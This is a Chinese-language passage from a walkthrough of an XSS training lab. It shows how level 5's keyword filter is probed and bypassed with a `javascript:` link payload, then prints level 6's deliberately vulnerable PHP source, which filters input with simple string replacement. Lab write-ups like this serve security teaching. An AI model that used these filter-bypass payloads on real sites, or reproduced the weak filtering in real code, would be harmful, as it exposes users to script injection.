 ### 过程(未知源码的情况下)

表单输入`<sCr<scrscRiptipt>ipt>OonN\&apos;\"'<>`查看前端代码：

```html
<h2 align=center>没有找到和&lt;scr&lt;scrscriptipt&gt;ipt&gt;oonn\&amp;apos;\&quot;'&lt;&gt;相关的结果.</h2><center>
<form action=level5.php method=GET>
<input name=keyword  value="<scr<scrscriptipt>ipt>oo_nn\&apos;\"'<>">
<input type=submit name=submit value=搜索 />
</form>
```

有两处输出(第1行、第3行)，这两处的输出都被处理过，推测第1行的处理用了`htmlspecialchars()`，第3行将`on`替换成`o_n`，将第5行的输出作为构造payload的基础。

表单输入`<script>alert(1)</script>`查看前端代码：

```html
<input name=keyword  value="<scr_ipt>alert(1)</script>">
```

推测不仅将`on`替换成`o_n`，还将`<script>`替换成`<scr_ipt>`。

***构造 payload ——`" ><a href = "javascript:alert(1)" >click</a>`，点击按钮，过关。***

​	

​	

## 第六关

![](https://pic.imgdb.cn/item/64c88fd71ddac507cc773c36.jpg)

### 源码

```php+HTML
<body>
<h1 align=center>欢迎来到level6</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level6.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
</body>
```
